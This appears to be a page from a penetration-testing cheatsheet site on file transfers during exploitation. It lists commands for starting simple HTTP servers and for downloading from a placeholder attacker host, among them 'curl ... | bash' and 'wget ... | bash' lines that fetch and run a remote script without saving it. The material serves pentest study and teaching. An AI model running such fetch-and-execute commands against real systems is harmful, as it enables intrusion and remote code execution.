

repository: ch0kan/security-fieldbook · page: cheatsheets/exploitation/file-transfers/index.html · generator: mkdocs

# File Transfers

---

## Executive Summary

File transfer commands are used to move tools, payloads, scripts, evidence, and results between systems.

Use this cheatsheet for quick download, upload, and transfer syntax across Linux, Windows, HTTP, SMB, FTP, SCP, Netcat, and Base64.

## HTTP Server

Start Python HTTP server:

```bash
python3 -m http.server 8000
```

Python 2:

```bash
python2 -m SimpleHTTPServer 8000
```

PHP server:

```bash
php -S 0.0.0.0:8000
```

Ruby server:

```bash
ruby -run -ehttpd . -p8000
```

## Linux Downloads

Download with wget:

```bash
wget http://ATTACKER_IP:8000/file -O /tmp/file
```

Download with curl:

```bash
curl -o /tmp/file http://ATTACKER_IP:8000/file
```

Keep original filename:

```bash
curl -O http://ATTACKER_IP:8000/file
```

Fileless execution with curl:

```bash
curl http://ATTACKER_IP:8000/script.sh | bash
```

Fileless execution with wget:

```bash
wget -qO- http://ATTACKER_IP:8000/script.sh | bash
```
